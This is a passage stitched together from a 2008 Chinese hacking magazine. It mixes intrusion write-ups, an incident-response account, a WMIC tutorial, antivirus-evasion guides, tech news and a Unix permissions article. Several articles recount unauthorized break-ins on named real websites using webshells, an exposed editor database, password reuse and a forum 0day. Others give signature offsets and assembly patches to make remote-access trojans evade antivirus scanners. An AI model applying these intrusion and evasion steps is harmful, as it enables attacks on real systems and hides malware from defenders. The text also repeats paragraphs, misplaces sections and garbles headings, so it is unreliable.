这个 aspx 的 webshell 可以看到浏览几乎所有网站的 web 路径，但是没权限列目录。不过看了下 60.xj163.cn 站点目录，有个 WebEditor 在线编辑的程序，然后用 webshell 下载 eWebEditor 数据库，得到密码进入了 eWebEditor 编辑器后台。后面我这里不详细说了，最终拿到 160 的 shell（图 8）。


编辑点评：<http://...>。除了站点名字有点意思外，其它没什么好说的。

## 写于服务器被人入侵之后

从本文你可以学到

- 常规的修补漏洞的方法

昨天午休时正接到个客户单位一说，是一个客户给服务器挂马了，要我处理一下，于是写了此文。

## 一、多方分析查找漏洞

## 一、修补漏洞

做过一次渗透测试。初步检测分析出对方竟使用注入攻击获取的 webshell，C 盘有 2 个文件，一个是命令回显的 .txt 文件，一个是临时的数据库备份，如图 1 所示。

这里可以初步判断攻击方是采用注入（老兵命令）获得 webshell 了。好吧，既然判断出攻破方式，就可以开始寻找漏洞了。系统出了问题了就查看事件日志，网站出了问题了就查看 IIS 日志，我相信 IIS 日志。


我刚刚已经判断出是通过注入攻击。按这个入侵的思路，攻击者一般是通过 and 1=1 和 and 1=2 来判断是否存在注入的。我们就搜索这个“1=1”就好，如图 4 所示。


从日志中可以判断出此时的时间：存在注入漏洞的地址是什么（admin/news/newsview.asp），尝试入侵的 IP 是 58.59.151.124。我先不去深究，先搜 IP，看看对方到底在我的服务器上做了什么（图 5）。


从图 5 中可以看到他针对 newshumen 这个文件夹进行操作了。我们使用他提供的小工具来对比，比如方法为“CScript Scan.vbs d:\xxxx\i c\s1.htm”，扫描结果如图 6。


## 二、修补漏洞

1、我们先修补的是注入问题。其实注入问题好解决，不用去检查代码、修改代码什么的，只需要在存在注入的地方调用一下防注入的文件就好。首先我把 NEEO 大牛的防注入插件下载放在网站根目录，保存目录为 /zhushe/，然后在需要的地方直接调用它就行，如图 7 所示。


2、下面我们处理的是上传的问题。代码我看了一下，无法增加判断语句，增加了就会 500 错误。本来也想到升级最新的上传组件，这里从 upload_5xsoft.inc 可以判断出他使用的是老版无组件上传组件，但是它的最新版本也会默认允许上传 asp 的。从网上找了三步方法。第一步，如果一修改就 500 错误，只能在不影响的情况下修改配置；第二步，既然改不了程序，说明权限就不够，我想到从权限上面先下手，直接把图片上传的目录设置成不可执行，如图 8 所示。嗯，记住，必须这样操作，传上 shell 也因为目录不可执行而无效。


3、好了，基本的注入和上传解决了。但是有个情况不是拿到 shell 就可以完全解决的，对，ARP 欺骗。能想到这个的家伙真聪明。下面解决的是 ARP 的问题，这里我采用的是 360 的防 ARP 软件，效果还可以，拦截了很多攻击包，如图 9 所示。有部分页面已经被挂马了，我们接着解决的是被挂马的问题；大家看下图 10。


我可以判断出图片链接是由 2007 年 11 月 15 日某些文件被修改了，统一更改是件麻烦事。怎么处理方式为：批量挂马？批量挂马不可能是随机挂马，那应该就是前面发现过这样的挂马方式。大家可以自己写个脚本处理吧；我们解决的是自动挂马问题，操作方法如图 11 所示。


4、接下来是检查有无隐藏系统账号。具体方法是：开始—运行—输入 regedit，找到 HKLM\SAM\SAM，然后右键权限，赋予 admin 完全控制权限。之后继续往下打开 accounts\users 和 names 对照，如图 12 所示。


编辑点评：其实很多最坏的安全问题如同一块很薄的布，入侵还是防守中都是如此。如果业务系统比较脆弱，经过实战攻击，到了真正对抗中，往往会被对手无情击倒。本文中对图片中对应的安全措施进行了一部分整理，但有些是不可控的，后文或可给大家一些新的防范。

## 社工渗透一例

前段时间对目标站点 www.hg.net.cn 进行了这次渗透，并无奇绝的手法，只不过觉得思路对在某些方面可以让大家受益。对于技术的视角一定要广阔，对于渗透思路的剖析更重要。

## 思路

- 1. 对目标系统进行扫描，以及弱口令的判断。
- 2. 既然开了 Web 服务，就从脚本方面入手。
- 3. 确定目标，寻找突破口，制定更为详细的思路。


都是用非默认的账号（图2），于是一个邪恶的念头出现了：不会管理员在网络上也用这个 ID 吧？我到安全意识薄弱的网站下手，拿到管理员密码的这个思路渐渐明晰。

- 4. Google 管理员信息，拿到密码。

搜索了一个管理员 ID，网上很多，第一页发现了他自己的一个个人网页，用的是动易 2006 系统，默认数据库路径很容易找到，轻松得到了数据库文件，拿到管理员的 MD5 加密密码。服务器成功，其实这里的应用不仅仅如此，想一想还是继续了一件复杂的程序，Google 一些特殊检索，给一个个近似的文章首页的关键词，某个打开可见一个不太熟悉的程序，利用的空间还很大（图3、4、5、6所示）。


## 5. 穷追思维

剩下的事情就很好办了。我拿到他的密码，登录后台发现，最后修改版的 Discuz! 6.0，后台的密码修改并没有修改。在后台模板插入一组代码木马，拿到 Shell，然后再通过 Gene6 FTP Server 或 Microsoft SQL Server 来提权，拿到服务器权限。此次渗透就完毕了，因为是未经授权，而且后面的思路很明确了，也没必要继续了。

总结：

之所以写这篇文章，是因为管理员密码到站点的应用空间很大，也是很正常的手法。渗透过程中如果开阔一点，思路拓展，很多问题就能迎刃而解。希望可以对大家有一点启示，本次的目的也就在于此。

## 我用 DVBBS+PHP 版 0day 拿下猪猪猫

本次你可以学习 DVBBS+PHP 漏洞的利用方法。

不知道大家有没有在光盘上见过小白牙、JUMAO 的 GHOST 盘，大家知道这也就说那个猪猪猫了，其实猪猪猫有很多用户的，这次我就看上了她。呵呵，我不是去发她的光盘，而是测试一下她官方网站的安全性。

## 一、踩点

整个网站分为论坛、下载、BT 等模块，下载我没看出来用的哪个程序，BT 就貌似是自己写的。不过我一看论坛就乐了，DVBBS PHP 2.0，如图1所示。嗯嗯，它最主要是没改过它的代码，还不小心砸了进去漏洞。工具一写出来，直接拖过去。当然就是上了。

## 二、开工

工具利用起来很方便，很傻瓜化的一个。填入目标 URL 点 attack 后，数据库信息什么的就全部出来了。先看管理员。


## 批处理的“WMIC”学习概念

上期的专栏里，NP 给大家写了一篇很精彩也很有实际应用效果的批处理教程。这期，我给大家讲一下批处理学习 WMIC 的体会。在这篇文章里，也许你还要借助于某些有用的实例来操作，但实质上，是通过任务和示例让你去了解以及掌握一些 WMIC 的基本知识，而这个学习的思路不止只有一个，其他的自己继续研究下去。

在 WINDOWS\Help 目录下，wmic.chm 文档是这样解释 WMIC 的：Windows Management Instrumentation（WMI）是“基于 Web 的企业管理仪器（WBEM）”之“接口”之一，是 Microsoft 的“管理规范”的实现之一，是专用于客户端和网络上以及远程等的操作管理的，提供统一的接口。有关 WBEM 的详细说明、访问 WBEM、OS WMI 的接口、连接参数等内容，全部可以在微软发布的 WMI 指南中找到。

提供程序从注册表中提供信息，而 SNMP 提供程序则从 SNMP 设备中提供数据和事件。提供程序基于如何设置信息，也可能提供一些方法，这些方法可以操作组件、类对象，或者操作可能警告您组件中发生变化了的事件。Windows Management Instrumentation 命令行（WMIC）向您提供了简单的 Windows Management Instrumentation（WMI）命令行界面，这样即可利用 WMI 来进行 Windows 的标准化查询，并可与其他命令行程序相互配合，避免编写批处理脚本或其他面向网络的应用程序来扩展 WMIC。

以上这些说法太专业了，通俗一点讲，就是 wmic.exe 是一个命令行程序，可以用于配置、查询系统资源，并且可以通过脚本或交互模式调用。WMIC 的语法和参数往往决定了它在批处理中的使用方式。

## 一、WMIC 的基本命令格式功能分析

笔者研究到的相关资料表明，读者可对 WMIC 有一个基本的认识。不过看起来也会像各种命令一样，实际上其命令格式由“wmic + 全局开关 + 别名 + WQL 语句 + 动词 + 副词（或者说是动词参数）+ 动词开关”这几个部分组成。这个命令格式可以根据需要再生成各种各样的指令，对此处标示的每个名称，会按照自己的理解解释一下，不过它们并不完全符合中文意思，只是让大家能够更懂得这个命令格式。

wmic.exe 位于 Windows 目录下，是一个命令程序。WMIC 可以以两种模式工作：交互模式（Interactive mode）和非交互模式（Non-Interactive mode）。在交互模式下输入命令后，可以在提示符下继续输入或查看结果；非交互模式则适合批处理，执行完命令后直接返回结果。

交互模式：如果你在命令行提示符下键入 `wmic`，或通过“运行”菜单进入 WMIC，系统就会返回 WMIC 提示符 `Root\Cli>`，然后可以继续输入更多 WMIC 指令。

非交互模式：通过在命令行中直接输入完整的 `wmic` 命令，完成后返回普通命令提示符。WMIC 的非交互模式主要用于批处理或者某些脚本文件中。


## 二、一步一步来完成我们的 WMIC 命令行

`wmic` 里有个别名是 `logicaldisk`，就是对应磁盘进行管理。我们先按最简单的格式来写，在 cmd 命令行下输入 `wmic logicaldisk list`。我们再改写一下，改成 `wmic logicaldisk list brief`，在 `list` 动词后加 `brief` 参数，也就是简表，显示的结果会很整齐，效果如下：

| DeviceID | Brief | FreeSpace | ProviderName |
|---|---|---|---|
| C: | ... | ... | ... |

大家可能注意到上面的命令行中有 `list` 和 `brief`，`list` 动词决定显示的信息格式与范围，它有 `Brief`、`Full`、`Instance`、`Status`、`System`、`Writeable` 等多个参数（副词）。`Full` 是另一种全部显示方式，主要表示对象的所有信息。其他几个参数顾名思义，如 `Brief` 表示只显示摘要信息，`Instance` 表示只显示对象实例，`Status` 表示显示对象的状态，`Writeable` 表示显示对象可写入的属性信息。

我们再来把这句命令加点东西。在上边返回的信息当中，`DriveType` 为 3 时表示是本地硬盘，如果是 5 为光驱，2 则是移动磁盘。我们把它改成用 `where` 这个条件，来看：

`wmic logicaldisk where "DriveType=3" get DeviceID,Size,FreeSpace,Description,FileSystem`

这样则可获得本地磁盘的信息。

来加个 `/OUTPUT` 吧，让它把显示信息输出到一个文件中，命令如下：

`wmic /output:a.html logicaldisk where "DriveType=3" get DeviceID,Size,FreeSpace,Description,FileSystem`

这样一来，刚才屏幕上返回的信息就改到当前目录的 a.htm 里了。但是，html 打开看着，根本就像一个记事本一样，没有任何样式，看起来也不美观。我们给它指定一个样式，就要用到 `format` 这个开关了，命令改为：

`wmic /output:a.html logicaldisk where "DriveType=3" get DeviceID,Size,FreeSpace,Description,FileSystem /format:htable`

这样一来，a.htm 就能用表格显示我们本地磁盘的信息了。也许你还想问，`htable` 是什么东西？其实这是一个文件，它根据上边的 a.html 这个格式，可以在 `C:\WINDOWS\system32\wbem` 这里找到对应的文件名，具体有以下一些文件：

- CSV
- HFORM
- MFORM
- HTABLE
- HXML
- LIST
- TABLE
- VALUE
- htable-sortby
- htable-sortby.xsl
- texttablewsys
- texttablewsys.xsl
- wrnlistinfoformat
- wrnlistinfoformat.xsl
- wrnlisttableformat
- wrnlisttableformat.xsl
- wrnlistvalueformat
- wrnlistvalueformat.xsl

WQL 语句和我们平常用的注入时的 SQL 语句的语法几乎是一样的，甚至更简单。一般是 `where name='xxx' and ...` 之类的，不过有时候要把 `name = 'xxx'` 这样的格式换成 `name='xxx'`，或者是 `where(name='xxx')` 这样，反正常见情况下写法很灵活。

动词呢，就是各种命令，如 `assoc`、`call`、`create`、`delete`、`get`、`list`、`set`，从英文名字上应当可以看出它们是用来干什么的。不过说实话，`assoc` 我真的还没用到过。至于副词（动词的参数），就是通过动词加它的参数得到对象的属性。假如是 `list` 动词的副词，就是显示什么，例如显示详细状态或简要状态。

还有人也许要问了，我只想显示 C 盘的，不要其他盘的可以么？当然可以，这就要用到 WQL 语句的 `name` 这个变量了。你可以先用 `wmic logicaldisk list instance` 看看上面的具体名称，然后更改上边的 WQL 语句，成了：

`wmic /output:a.html logicaldisk where "name='c:'" get DeviceID,Size,FreeSpace,Description,FileSystem /format:htable`

就可以。

这样一来，我们最后的语句基本就符合了我文章开头说的 WMIC 命令格式了：WMIC 开头 + 别名 + WQL 语句 + 动词 + 副词（或者是动词的参数）+ 动词开关。不过 WMIC 不可能给我们来个自动提示，我们还是得进行操作，何况也不是所有参数都属于全局开关。后续命令的参数还可以继续研究“命令参数”和“多用户命令”。

`WMIC /node:"192.168.8.100" /user:"administrator" /password:"lcx" /output:a.html logicaldisk where "name='c:'" get DeviceID,Size,FreeSpace,Description,FileSystem /format:htable`

其中 `node` 开关表示对哪台机器进行访问，`user` 和 `password` 当然是远程机器的用户名和密码了。这个命令有了以上的讲解，大家应用一下就好了。到现在为止，我们的动词只用到了 `get` 和 `list`，我们再加一个变化，改变 C 盘的卷标，命令如下：

`WMIC logicaldisk where "name='c:'" set VolumeName="lcx"`

## 二、后话

事后我立即通知了管理员，用短信说的确实是那个组件的漏洞。他们也立刻修补了漏洞，关于漏洞如何修补，大家有时间也可以自己分析。其实官方早就知道这个漏洞的存在，只是他们以后会自动更新了。暂时解决办法：

`$groupboardid=intval($_GET['groupboardid'])`

编后感言：学会这个不仅仅在于用工具，还是要关注这个源码的原理，作者的 blog 上有写：http://www.iamnull.cn/blog/ 。


## 周安全·黑客手册 2008.05→[高手专栏]

| 参数 | 说明 |
|---|---|
| /PASSWORD | 用于会话登录的密码。 |
| /OUTPUT | 为输出重定向指定模式。 |
| /APPEND | 为输出重定向指定模式。 |
| /AGGREGATE | 设置变量聚合模式。 |
| /AUTHORITY | Specifies the `<authority type>` for the connection. |
| /[<CR><LF><...>] | Usage information. |

## 突破 MYCL 定位瑞星内存特征码的难题

从本文你可以学习到：使用 MYCL 定位瑞星内存特征码。

瑞星现在已经具备三类特征码。对内存特征码的定位，以前我们用 OD 把内存手动定位得很快，但是我们发现，当把定位目标载入到内存的时候，全部 NOP 以后，明明是在扫描当中，发现根本找不到地址。这里除了因为 MYCL 和载入在内存中的某些定位有关，而且当时系统状态全部被修改了的同时，也会把目标注入内存。LOADER 的结构与原理我们都分析过，这次我们只想尝试自动化，采用 LDATOOL 采集样本，自动分析定位内存的特点。同时，基于这些特征码，我们就可以实现定位结果。

我们在此基础上提到的方法，已没有太大实战意义。为了测试，假如有大量的目标和变体，我们仍然可以定位样本所处的内存区域。然后我们会使用 OD 进程查找样本的特征码，而在进程中，这些代码的定位，也许会帮到我们。

法子虽然笨，但是确实解决了问题，也希望大家有好的办法继续交流。我们进入正题，这次用微软的一款远程控制软件 SpyOne 1.0.2 FIX 版本。我没找到汉化版本，直接使用英文版本吧。SpyOne 1.0.2 FIX 版是一款体积较小的远程控制软件，这个远程控制由于体积相对非常小，特征也非常明确。如果是中文环境下，通过图形化界面也更容易定位。其实对于它的说明书也是比较难理解的，对于初学者来说，读过以下的说法，也能实现对内容布局的学习。


我们用该软件从主程序中获取配置服务端等信息，先后使用 OD 等工具进行定位，首先是标识符的定位。定位的时候记得打开调试，预处理代码的位置。这里必须是带有程序的资源，我们将通过右边的图示来讲解。

特征码：物理地址 / 物理长度如下：

`[特征] 0001E021 / 00000002`

特征码分布示意图：


直接 NOP 块填充就可以了，文件基本不会被杀软查出。OD 载入，扫描内存，扫描出病毒，如图2。接下来开始定位内存特征。定位前，我们先修改一下原来 MYCL 自带的 LOADER 文件，先改一下 LOADER 路径，之后再使用 PEiD 自带插件，载入后开始。


## 后续

存为“0001.exe”，以此类推，直到第十个为止，0009.exe。这样做，目的是和 MYCL 生成的文件进行一一对应，方便操作。看效果，如图6。

修改完毕之后，开始定位特征码了，用 MYCL 打开，修改文件特征码的服务端，如图7。

记得要在“带后缀”那里打上钩。好了，我们用刚才的十个 LOADER，分别载入 MYCL 生成的这十个服务端，看看生成的服务端文件名，如图8。

分别是从 0001、0002、0003……这些开头的文件名。现在我们修改 LOADER 的目的是：0000 这个 LOADER 加载全部文件，把 0000……这个目标文件载入到内存；用 0001 这个 LOADER 把 0001……这个目标文件载入到内存；以此类推。这样扫描时使用，我们就知道哪个 LOADER 被杀掉了，对应就删除哪个文件。当然，这个是要手工操作删除的，对吧，如图9。

看到图9这种一一对应的关系了吧？是每个 LOADER 只载入与之对应的一个文件内容。好了，我们把十个部分载入其中，图7中的进程链中的文件，然后执行对比，MYCL 生成的文件如图10中选中的文件。

也就剩下分别以 0007、0008、0009 开头的三个文件。之后关闭所有的 LOADER 进程，用 MYCL 再次处理。这时有一个新的小技巧，一般说只用小内存中的特征码，也就是第三次处理生成的文件，不必用十个 LOADER 分别载入了，只用一个 LOADER 将其全部载入内存即可。因为只要我们把一个文件载入内存中，有关部分是一致时，发现了的每个文件都是可以的，其实只要能杀到就行了。

接下来还会遇到这样的问题，这次定位也遇到了这个问题：第四次先由特征生成时，发现把十个生成的全部杀掉了，似乎定位无法进行。这其实好办，因为这个修改也可以做到，如图13。

我们缩小了特征码所在的范围，找到了一个更小的区间，继续使用定位范围窗口就可以了。继续分裂成 10 个，按前面的方式循环操作，进一步缩小特征的范围。这一次只剩下 0006、0007、0008、0009 开头的这四个文件。我们再定位，删除 0008、0009 开头的两个文件。其实也可以看计算出的特征码详细信息后，再删除整个文件。前面对应 LOADER 的修改，目的主要是对应载入，防止判断错误，如图12。

接下来还会遇到这样的问题，这次定位也遇到了这个问题：第四次生成的时候，发现把十个生成的全部杀掉了，似乎定位无法进行了。其实好办，我们对 MYCL 的设置进行调整就可以了，如图13。


## 对 PE 文件输出表进行免杀

图14 本文你可以学习到：

- PE 文件输出表免杀

现在很多杀毒软件都从 PE 文件头中提取特征码，这样就给特征码的修改带来了很大的不便。如果这些特征码是提取于 PE 文件头的输出表里面的话，那么修改起来更是非常简单。今天就通过对 PE 文件头的输出表进行讲解，教大家如何对输出表中的特征码进行修改。

## 一、相关知识普及

PE 文件中出现 RVA 的概念，是因为 PE 的内存映像和文件映像是不同的，同一数据对于文件头的偏移量在内存中和磁盘文件中可能是不同的。为了提取数据，PE 文件头中使用的都是内存映像中的偏移量，也就是 RVA。RVA 是相对虚拟地址（Relative Virtual Address）的缩写，顾名思义它是一个“相对”地址，也就是人们常说的“偏移量”。PE 文件的各种数据结构中涉及到的地址的字节大小都分别是以 RVA 表示的。这里解释说，RVA 表示的是 PE 文件被装载到内存中后，其参数的位置将相对于文件头的偏移量。

一般情况下，在 PE 文件里某一项的起始是 RVA，因此并不能直接和磁盘文件的物理地址相对应。在内存映像的基础格式化中，只需要取得 RVA，再用 ImageBase 作简单的运算以后，就可以定位到某一项数据在内存中的位置。例如 Windows 装载器将一个 PE 文件装载入 00400000 的内存中，而其中某一个数据表值在 0040XXXX 处，那么这个数的 RVA 就是 XXXX（0040XXXX-00400000）。反过来说，将 RVA 的值加上文件被装载的基址，也可以找到数据在内存中的实际地址。

## 二、实际修改操作

### 1. 分析特征码

由于输出表一般存在于 DLL 文件中，而很少出现在 EXE 文件中（当然也有），因此今天的演示就放在 PcShare 的 PcMain.dll 来完成。首先还是老规矩，利用 MyCCL 来定位特征码，运行 MyCCL，点击“文件”选择文件，同时将“带后缀”选项选中。接着在“分块个数”选项中设置 10，设置完成后点击“生成”按钮，如图1。

现在利用金山毒霸对分块项目进行查杀，当毒霸检测到该系统文件后，将文件全部删除掉。然后返回到 MyCCL 界面，点击“一次处理”按钮，再用金山毒霸对分块进行查杀。查杀完成后，再次点击“一次处理”按钮，并且重复这样的处理步骤，直到 MyCCL 提示“特征区间”，如图所示。点击截图下方的“复合定位此处特征”命令，再进行“分块个数”选项的设置，然后再进行分析，最终得到四组特征码，分别是 0000DC28_00000002、0000DC30_00000002、0000DC4C_00000002 和 0000DC70_00000004，如图2。

### 2. 分析特征码

我们要确定输出表的起始位置，这样才能知道特征码是否在输出表中。由于手工操作太过繁琐，因此这里我们通过 PEiD 来辅助完成。利用 PEiD 跟入 PcMain.dll 文件，点击“手工版”后面的三角按钮，在弹出的“PE 细节”窗口可以了解到文件的基本信息，其中镜像基址、代码基址都是后面需要用到的，如图3。

点击窗口中的输出表后再点击“...”按钮，就可以确定文件输出表的位置，如图4。

由于通过 PEiD 无法进行搜索，因此只能进行人工查找。首先拖动侧边栏，找到地址“0000DC30”这一行，然后从左到右一字节一字节看，就是特征码所在的位置。通过对这三组特征位置的查看，发现它们都集中于输出表里面，并且分别位于函数地址、DLL 文件名和函数名称。

### 3. 修改特征码

现在运行汇编程序 C32Asm，通过“文件”菜单中的“打开十六进制文件”，选择 PcMain.dll 文件。首先我们来修改 0000DC70_00000004 这个特征码地址。从图4中我们看到它对应的是函数名称 ServiceMain。找到文件的 PE 文件头，从头向下数 224 个字节，这就是 PE 可选头的位置。因为在 PE 目录中的最后一级结构体中，可以找到导出表地址，而它对应的文件偏移地址就是 66EC0000，如图5。

### 三、总结

到此为止，关于 PE 文件输出表的概念就为大家讲到这里。其实关于 PE 文件输出表的免杀方法有很多种，用户可以根据自己的实际操作进行选择，而今天讲解的这种方法的关键就在于：PE 文件的对应数据地址和文件偏移地址的相互转化。只要能掌握这个技巧，就可以成功进行输出表的免杀。

> 【本文介绍的技术有多种，只是取其在本例中的一种】

编者点评：这是一篇非常有技术含量的文章，思路也很清晰，适合读者学习。这种从文件偏移地址和输出表地址转换入手进行 PE 免杀的文章，对于语言表达能力稍有欠缺的人来说，阐述更加简单，方便了广大读者。

## 让“上兴”也能自动生成免杀服务器

从本文你可以学到：免杀“上兴”服务端。

## 一、脱壳

上兴的控制端是加壳的，如图1。好在 ASPACK 这个壳很好脱，可以用脱壳机进行脱壳，也可以手动脱壳。我来说一下手动脱壳：用 OD 载入上兴控制端 rejoice.exe，按 F8 直到右边的寄存器窗口中 ESP 和 EIP 同时变红，在 ESP 上点右键再点击“数据窗口中跟随”，接着在数据窗口中点右键，依次选择“断点”→“硬件访问”→“字”。

图1 PEiD 查壳

## 二、免杀

首先，对 HOOKMM.EXE 定位特征码。关于如何定位特征码，我就不在这里介绍了，大家都懂。如果不会的话可以翻阅以前的杂志，我这里直接给出定位的特征码：

```text
文件特征码（后面为用 OD 转换后的内存地址）：
000052A2_00000002    004211A2
00087B11_00000004    00487B11
00087BC1_00000006    004887C1
0009D8A2_00000002    0049E4A2
00093058_00000002    00499C58

内存特征码：
00498EAE    _00000002
```

用 OD 载入 HOOKMM.EXE，按 Ctrl+G 输入 004211A2 点“确定”来到此处：

```text
0042119D    3E    mov    esi, 7FFFFFFFh
004211A2    3E    mov    [004211A7],
004211A4    3E    mov    [ebp-10],
004211A7    3E    mov    [ebp-10],
004211A?    3E    F6E A0000000  jne    00421259
```

再来到 00488711 处：

同样定位在跳转上，将 00488714 jne 00488709 改成 jmp 00488789。接着来到 004887C1 处：

同样将 004887C2 test ebx, ebx 改成 push 0。接下来跳到 0049E4A2 这处：

可以看到这段特征码在入口点附近，我们可以将入口点附近的代码修改一下：将 0049E490 push ebp 改为 pop ebp，再将 0049E493 add esp, -110 改为 sub esp, 110。再来到 00499C58 这处：

接着向下找到空白地址，我们找到的是以 0049E542 开始的地址。将 00499C54 到 00499C59 的代码保存到一个文本中，再将 00499C54 到 00499C59 这几处点右键，依次选择“二进制”→“用 NOP 填充”。在 00499C54 处点右键，再点“汇编”，输入 jmp 0049E496，并让下方 NOP 填充后的下一句地址到 00499C5F。然后跳到 0049E4E2，并将刚才保存的 00499C54 到 00499C59 的代码依次汇编，这样保存后再回到 00499C5F，保持程序连续。至此文件免杀完成，下面进行内存免杀，到图3。

## 三、导入

用 ResScope 载入脱壳后的 rejoice.exe，用导入命令将免杀后……

编者点评：那天我的 chain 被杀了，内存都没有了，于是这个不是这个上章、上期编辑时如实地打给了上级（当年别的同学知道这事时，也以为是真的）……

HOOKMM.EXE 好像不能加壳，我试了几个壳都不行，导入后会导致控制端崩溃。

## Linews

### 1、与 Linux 争食市场，微软或再次延长 XP 停销期限

微软原计划今年六月份停售 XP 系统，但八月份微软将 XP 系统最终期限再次延长。预测微软不久将宣布再一次延长这一期限。

据国外媒体报道，尽管微软希望购置新机器的用户尽快转向采用新的 Vista 系统软件，但一些市场的事实是，继续使用 XP 系统的时间可能将超过微软此前预定的今年六月份最终期限。届时计算机制造商将停止销售老的操作系统。

XP 可能继续保留在新兴的、低价格、甚至闪存笔记本市场，比如华硕电脑的 EeePC。由于更低的价格和极低的存储需求，这一产品为 Linux 软件提供了广阔的生存空间，而 Vista 没有 Starter（启动版）版本。微软试图以 XP 软件继续留驻在新兴市场，这一尝试在很大程度上把 XP 的价格空间推迟到了 2010 年。

为了与 Linux 竞争，微软希望在这些低价格产品中提供完整版本的 XP 系统。

风靡点评：

Windows 产品的价格变动已经是家常便饭了，这样也许你觉得没什么不妥，但全面统一低配置处理器的 Windows 版本，最早是根本无法想象的。微软不能总以 Windows 的高代价自居，是不是也太难受呢？国内一点儿 Linux 版本的更新、手册，所有人都在想办法赶着做不完的应用；软和硬件、软件，或许会有首创再谈。

### 2、腾讯 QQ 将首次官方支持 Linux 操作系统

北京时间 4 月 1 日上午，腾讯控股的社交网站巨头，在 4 月 2 日 Intel IDF 大会上发布的 Aslan/Mobile Midinux 2.0 操作系统平台中，腾讯首次提出将正式发布 QQ 的消息。这是腾讯首次表示将推出 QQ for Linux 的版本。MID（Mobile Internet Device，移动互联网设备）是近年中国最大的一个项目。由于传统的 PC 市场已经饱和，Intel 将目光锁定在了移动网络设备。而 Midinux 则是 Intel 此次推出 MID 的 Linux 操作系统，由中科红旗于 2007 年 6 月推出 1.0 产品，此次发布的是其 2.0 版本。

此次腾讯将 QQ 纳入到 Midinux 的文章里，虽然很可能是希望吸引更多数码用户呼吁腾讯推出 QQ for Linux 的版本，但腾讯一直无动于衷。此次转变，虽然不是针对传统的 Linux 发行版，但也可以预示腾讯下一步的动作，以及其对于 MID 领域的信心和对 Linux 操作系统的研究。对于 Linux 用户而言，也可以改变长期在 Linux 操作系统上使用第三方插件的尴尬境地。

风靡点评：

曾在 Linux 论坛的新手区里，提问最多的问题就是“怎样上 QQ？”这个问题热闹了很久，人们后来又对这个问题没了热情，于是很多人继续使用替代方案。QQ for Linux 也很难做出进一步改进，Linux 在很大程度上还没有真正得到适合其用途的软件支持。

### 3、HTC 首款 Google Android 手机 5 月登场

自从互联网巨人 Google 携手众多行业巨头进军手机领域并发布“Android”开源系统平台以来，曾经模糊的 Google 手机何时问世也成为了众人关注的焦点。有意思的是，HTC 与韩国三星已为成为开放 Android 平台以及 Google 手机的“世界第一”，展开了激烈的竞争。

除了传闻三星将在今年 9 月上市两款搭载 Google 平台的手机之外，目前更有迹象显示，HTC 可能将会先人一步，于今年的 5 月 6 日在伦敦正式推出史上第一款 Google 手机。

实际上，HTC 一直都有为重量级产品提前布局发布会日期的传统，比如在推出畅销产品多普达 S1 等产品前，也会同时提前公布发布的详细日期，从而吸引更多大众和媒体的关注。而这次提前公布的发布会日期，则很显然是在 HTC 的预热营销，同样能够引起更多人的注意。虽然目前还没有直接证据显示在 5 月 6 日推出的会是 Google 手机，但从目前 HTC 所放出的各类消息来看，非常可能会率先发布 Android 系统平台的第一款 Google 手机。

## Unix 系统安全——权限机制加强版

www.ilank.net

从本文您可以学到：

- 了解 Unix 的权限概念
- 学会使用 Setuid 和 Setgid 权限

在介绍如何加强文件系统的安全之前，应先了解一下关于 Unix 系统的文件基本安全和所有权的关系，了解文件列表的各个字段意义。Unix 系统文件属性需要用到“ls -l”命令，我们的实验环境是 FreeBSD 系统。笔者复制几个文件到一个测试目录里，并在此处作相应说明，如图1。

在图1 的文件属性中，区域一是文件或目录的权限。该区域共有 10 个字段，第一位代表文件特殊属性，比如：d 代表目录。

root 用户 tty 组，当有用户登录时，该文件的用户权限变成登录用户组。BSD 系统无人使用的终端为空，这也是 BSD 和 Linux 系统的一点不同。

## 文件目录权限

现在我们看看图1中说过的区域。区域一共有 10 个字段，第二组以后分别是所有者（owner）、用户组（group）、其他用户（other）的权限。其中文件权限的顺序是：

| 字段 | 含义 |
|---|---|
| 1 | 位置 |
| 2 | Read |
| 3 | Write |
| 4 | Execute |
| 5 | Setuid |
| 6 | Setgid |
| 7 | Sticky |
| 8 | owner |
| 9 | group |
| 10 | other |

对于读、写、执行权限都很好理解，和 Windows 差不多。Setuid 和 Setgid 在《黑客手册》以前的文章里提过，并提供过全程的演示动画。Setuid 和 Setgid 权限设置必须在参数足够安全的前提下，才用更高级的功能来做。

因为讲 Unix 权限的文章已经不多了，但大部分都还是讲原理性质的文章，读者们看了之后想知道什么文件权限可以怎么用。我们结合一个小案例来讲文件权限对系统安全的重要性和现实中企业的应用，让大家更加了解 Unix 系统权限的微妙，而且权限的错误设置也会带来深远影响。这个案例很多公司都采用，也是一套很实用的网络方案。

> 实用案例：公司的文件服务器提供给每个小组一个共享目录，因为公司员工比较多，且有不少项目组，所以需要每个小组只有对应的成员可以访问。图2中显示设计组的共享目录，设计组中有几个用户也可以查看共享目录。这种权限设置与组读写有关。

我们分析一下，如果用户可以读、写，那么文件的前几位就是 rwx（参见图1）；如果组用户有读写权限，那么前几位也是 rwx。作为文件或目录，如果没有读/写的情况，权限则是 r-- 或 rw-，按位设定。

> 案例实施：

### 添加所需用户

因为 FTP 服务器无法完成任务，我选择 Unix 系统另一个文件服务器——Samba。首先添加组：useradd design，几乎同步为组 design 建立两个用户 mike、nancy，然后使用 smbpasswd usermike 将用户加入到 Samba 登录账号中。

“pw”命令中，pw 参数是初始化用户所在组；如果是大写的“G”，则用于设置用户附加组。这是 BSD 和 Linux 系统的一点不同。

### 配置服务器

文件服务器软件我使用的是 Samba 3。Linux 系统 Samba 服务器的配置以前在《黑客手册》发表过，在此不再详细叙述。新建一个共享目录“design”，名称无所谓，中文也成，没有什么特定意义。

语句段的大意是：共享目录名为 design，目录在服务器的绝对路径是 /home/design，目录本身不公开共享（public = no），只有 design 组的用户可以对此目录进行有效访问。只有 design 组的用户可以写目录（write list = @design），创建文件及目录默认权限是 770。

> 小提示：write list、valid users 的语法说明。如果写成 valid users = @design，代表 design 整个组的用户有权限。多个组或用户可以用空格隔开。

### 配置服务器目录权限

创建文件目录 mkdir /home/design，这个目录的绝对路径要和配置文件中的 path 路径相同。执行 chgrp design /home/design，改变目录组别，以便让 design 组的成员可以用组权限登录；chmod 770 /home/design，将目录权限设置成用户、组完全控制，其他用户没有任何权限。

### 初步测试服务器

用 Samba 服务器的客户端 smbclient 登录服务器自己，使用新建的用户 mike（密码相同）来测试服务器。如果你也可以看到登录后的项目内容，可以通过 copy 上传文件或使用 mkdir 来创建文件夹。测试可以用 put 上传文件，如图4。在服务器上查看上传文件的权限，这时 design 组的用户都有读、写权限。

